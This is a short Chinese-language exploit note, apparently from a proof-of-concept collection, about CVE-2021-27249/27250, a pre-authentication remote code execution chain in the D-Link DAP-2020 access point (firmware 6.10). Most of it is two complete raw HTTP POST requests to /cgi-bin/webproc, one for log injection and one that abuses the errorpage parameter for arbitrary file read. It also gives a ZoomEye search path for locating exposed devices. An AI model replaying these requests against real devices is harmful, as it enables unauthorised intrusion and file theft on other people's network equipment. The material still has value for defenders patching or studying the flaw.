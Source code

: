 # D-Link DAP-2020远程代码执行 (CVE-2021-27249/2021-27250)

CVE：CVE-2021-27249，CVE-2021-27250

受影响设备：

DAP-2020（硬件版本：A1，固件版本：6.10）

详细分析：https://suid.ch/research/DAP-2020_Preauth_RCE_Chain.html

ZoomEye：/webproc

**Blind RCE:**

WEB_CmdFileList 函数尝试根据用户使用进程打开（popen）的输入来检查文件是否存在于特定目录中，虽然它执行了字符串清理操作，攻击者依然可以绕过它。

poc.py：https://suid.ch/research/DAP-2020_Preauth_RCE_Chain.html

**Log注入**


```
POST /cgi-bin/webproc HTTP/1.1
Host: dlinkap
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: de,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 203
Origin: http://dlinkap
DNT: 1
Connection: close
Referer: http://dlinkap/cgi-bin/webproc
Cookie: sessionid=365dfaef; auth=nok; expires=Mon, 31-Jan-2050 16:00:00 GMT; Lan_IPAddress=dlinkap; language=zh_cn; sys_UserName=admin; expires=Mon, 31-Jan-2050 16:00:00 GMT; langmanulset=yes
Upgrade-Insecure-Requests: 1

getpage=html%2Findex.html&errorpage=/var/log/sysevent.txt&var%3Amenu=setup&var%3Apage=wizard&var%3Alogin=true&obj-action=auth&%3Ausername=CONTROLLED&%3Apassword=test&%3Aaction=login&%3Asessionid=365dfaef
```

**任意文件读取**


```
POST /cgi-bin/webproc HTTP/1.1
Host: dlinkap
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: de,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 198
Origin: http://dlinkap
DNT: 1
Connection: close
Referer: http://dlinkap/cgi-bin/webproc
Cookie: sessionid=365dfaef; auth=nok; expires=Mon, 31-Jan-2050 16:00:00 GMT; Lan_IPAddress=dlinkap; language=zh_cn; sys_UserName=admin; expires=Mon, 31-Jan-2050 16:00:00 GMT; langmanulset=yes
Upgrade-Insecure-Requests: 1

getpage=html%2Findex.html&errorpage=/var/log/sysevent.txt&var%3Amenu=setup&var%3Apage=wizard&var%3Alogin=true&obj-action=auth&%3Ausername=admin&%3Apassword=test&%3Aaction=login&%3Asessionid=365dfaef

```

ref:

https://suid.ch/research/DAP-2020_Preauth_RCE_Chain.html